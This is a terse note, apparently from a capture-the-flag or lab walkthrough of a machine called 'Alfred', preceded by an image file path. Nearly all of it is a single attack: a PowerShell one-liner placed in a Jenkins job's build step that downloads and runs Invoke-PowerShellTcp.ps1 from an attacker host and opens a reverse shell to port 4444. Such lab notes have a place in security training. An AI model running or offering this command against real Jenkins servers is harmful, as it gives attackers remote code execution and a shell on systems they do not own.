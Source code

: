 # Alfred

http://10.10.200.120:8080/job/project/configure give RCE with `powershell iex (New-Object Net.WebClient).DownloadString('http://10.10.2.226:9999/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.10.2.226 -Port 4444` under build.

